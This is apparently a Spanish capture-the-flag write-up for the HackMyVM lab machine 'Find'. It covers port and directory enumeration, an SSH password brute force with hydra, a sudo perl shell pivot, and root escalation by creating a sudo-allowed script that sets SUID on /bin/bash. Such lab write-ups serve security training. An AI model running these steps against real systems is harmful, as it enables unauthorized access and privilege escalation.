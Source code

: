 # Maquina Find Hackmyvm

```
Nivel =  facil
ip: 10.10.10.93
ports : 22 80
```
## Enumeracion de puertos y Servicios

~~~
# Nmap 7.92SVN scan initiated Wed Jun 15 16:02:59 2022 as: nmap -p- -sCV -T4 -v -n -oN targeted -oX targetedXML 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up (0.0013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6ef79004840dcd1e5d2edab151d9bf57 (RSA)
|   256 395a6638f7649a94ddbcb6fbf8e73f87 (ECDSA)
|_  256 8c26e72662771640fbb5cfa61ce0f69d (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:11:31:1A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 15 16:03:19 2022 -- 1 IP address (1 host up) scanned in 20.00 secon
~~~

## Enumeracion de archivos y carpetas

~~~

dirsearch -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -t 64 -e txt,html,php,jpg

[16:24:44] 200 -   10KB - /index.html
[16:24:47] 403 -  276B  - /icons/      
[16:25:10] 200 -   34KB - /cat.jpg              
[16:25:16] 200 -  626B  - /manual/           
[16:25:16] 301 -  311B  - /manual  ->  http://10.10.10.93/manual/
[16:26:06] 200 -   13B  - /robots.txt  
~~~

En robots.txt nos pone que busquemos al usuario. --> find user :) .

Tenemos una imagen que contiene un codigo raro con strings cat.jpg lo veremos.

Tambien si le hacemos un file a la imagen nos reporta de donde sale la foto

~~~
file cat.jpg 
cat.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, comment: "File source: https://commons.wikimedia.org/wiki/File:Cat03.jpg", baseline, precision 8, 481x480, components 3
~~~

```bash
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

Se puede compilar en esta pagina , para dar con ella tela.
~~~
http://www.malbolge.doleczek.pl/
~~~

conseguimos un nombre de usuario y con hydra conseguimos el password

❯ hydra -l xxxxxxx -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.93 -f -t 64
Hydra v9.4-dev (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-15 16:22:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking ssh://10.10.10.93:22/
[22][ssh] host: 10.10.10.93   login: xxxxxxx   password: xxxxxxxx
[STATUS] attack finished for 10.10.10.93 (valid pair found)
1 of 1 target successfully completed, 1 valid password found


### User Pivoting

Del usuario xxxxxxx --> kings.

Con sudo -l podemos ejecutar perl en gtfobins encontramos la manera de ejecutar una bash.

~~~
xxxxxx@find:~$ sudo -l
[sudo] password for missyred: 
Matching Defaults entries for xxxxxxx on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User xxxxxx may run the following commands on find:
    (kings) /usr/bin/perl
xxxxxxxx@find:~$ sudo -u kings  perl -e 'exec "/bin/bash";'
~~~

### Escalada de Privilegios

accedemos como el user kings y encotramos la primera flag

con sudo -l podemos ejecutar un script pero no esta.

kings@find:~$ sudo -l
Matching Defaults entries for kings on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kings may run the following commands on find:
    (ALL) NOPASSWD: /opt/boom/boom.sh


Nos vamos a la carpeta opt y veremos que tenemos permisos de escritura creamos la carpeta boom y el archivo boom.sh.



```bash
#!/bin/bash

chmod u+s /bin/bash
```

Le damos permisos chmod +x boom.sh y lo ejecutamos --> sudo -u root /opt/boom/boom.sh.

Aqui al ejecutarlo lo que haremos es darle permisos SUID al binario /bin/bash.

Con bash -p accedemos como root.
~~~
kings@find:~$ bash -p
bash-5.0# id;whoami;hostname
uid=1002(kings) gid=1006(kings) euid=0(root) groups=1006(kings),1005(kingg)
root
find
bash-5.0#
~~~
